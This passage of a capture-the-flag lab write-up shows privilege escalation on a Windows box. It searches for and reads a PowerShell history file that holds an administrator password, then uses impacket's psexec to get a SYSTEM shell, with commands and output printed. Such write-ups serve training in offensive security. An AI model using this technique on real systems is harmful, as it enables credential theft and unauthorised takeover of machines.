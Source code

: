 Unfortunately, _sql_svc_ is a standard user account without administrative permissions, meaning we have to do privilege escalation before obtaining the system flag.

Doing a recursive search for "__admin__" from `C:\Users\sql_svc` we obtain a PowerShell history file.

```powershell
dir -Force -recurse *.* | sls -pattern "admin" | select -unique path
```

We get the following path:
```console
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

As this is a regular user account and a service account, it is worth checking that history file.

```powershell
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
This outputs:
```console
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

This means that the backup share got mounted locally and assigned the drive letter T using the administrator account.

To connect, we will use a version of [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) included in `impacket`.

```console
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.27
```

This outputs:

```console
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.27
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN
[*] Uploading file GBStfHSI.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service jLDP on 10.10.10.27.....
[*] Starting service jLDP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
Checking permissions:
```console
C:\Windows\system32> whoami
nt authority\system
```
